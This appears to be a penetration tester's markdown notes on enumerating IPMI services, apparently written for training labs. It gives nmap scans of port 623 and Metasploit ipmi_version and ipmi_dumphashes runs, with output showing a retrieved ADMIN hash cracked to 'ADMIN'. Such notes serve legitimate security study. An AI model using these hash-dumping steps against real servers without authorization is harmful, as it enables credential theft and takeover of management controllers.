 ```yaml
---
id: Enumeration
aliases: []
tags:
  - Networking/Services/IPMI/Enumeration
---
```


# Enumeration

## Checklist

- [ ] [[Enumeration#Nmap|Nmap]]
    - [ ] [[Enumeration#Network Scan|Network Scan]]
    - [ ] [[Enumeration#Service Enumeration|Service Enumeration]]
- [ ] [[Enumeration#Metasploit|Metasploit]]
    - [ ] [[Enumeration#Version Scan|Version Scan]]
    - [ ] [[Enumeration#Dump Hashes|Dump Hashes]]

___

<!-- Nmap {{{-->
## Nmap

<!-- Network Scan {{{-->
### Network Scan

Scan the network for port TCP/UDP `623`

```sh
nmap -n -p 623 <target>/<cidr> -oA ipmi-basic
```

```sh
nmap -n -sU -p 623 <target>/<cidr> -oA ipmi-basic-udp
```

<!-- Info {{{-->
> [!info]-
>
> - `-n`: Desable DNS resolution
> - `-p 623`: Scan port `623`
> - `-sU`: Scan UDP port
<!-- }}} -->

<!-- }}} -->

<!-- Service Enumeration {{{-->
### Service Enumeration

Footprint the service with the `ipmi-version`
[[Nmap Scripting Engine|NSE]] script

```sh
sudo nmap -sU -p 623 --script ipmi-version <target_domain> -oA ipmi-version
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
> ```
> ```sh
> Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
> Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
> Host is up (0.00064s latency).
>
> PORT    STATE SERVICE
> 623/udp open  asf-rmcp
> | ipmi-version:
> |   Version:
> |     IPMI-2.0
> |   UserAuth:
> |   PassAuth: auth_user, non_null_user
> |_  Level: 2.0
> MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)
>
> Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
> ```
>
> - [[General|IPMI]] version 2.0 is listening on port `623`/UDP
>
<!-- }}} -->

<!-- }}} -->

___

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

<!-- Version Scan {{{-->
### Version Scan

[IPMI Information Discovery](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)
can be used to discover host information through IPMI Cheannel Auth probes

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_version
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_version
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_version):
>
>    Name       Current Setting  Required  Description
>    ----       ---------------  --------  -----------
>    BATCHSIZE  256              yes       The number of hosts to probe in each set
>    RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT      623              yes       The target port (UDP)
>    THREADS    10               yes       The number of concurrent threads
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > run
> ```
>
> ```sh
> [*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
> [+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Dump Hashes {{{-->
### Dump Hashes

Retrieve [[General|IPMI]] hashes with the Metasploit
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
module

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):
>
>    Name                 Current Setting                                                    Required  Description
>    ----                 ---------------                                                    --------  -----------
>    CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
>    OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
>    OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
>    PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
>    RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT                623                                                                yes       The target port
>    THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
>    USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
> ```
> ```sh
> [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
> [+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
>
> This flaw is a critical component of the [[General|IPMI]] specification
> ```
<!-- }}} -->

<!-- }}} -->

___

<!-- }}} -->
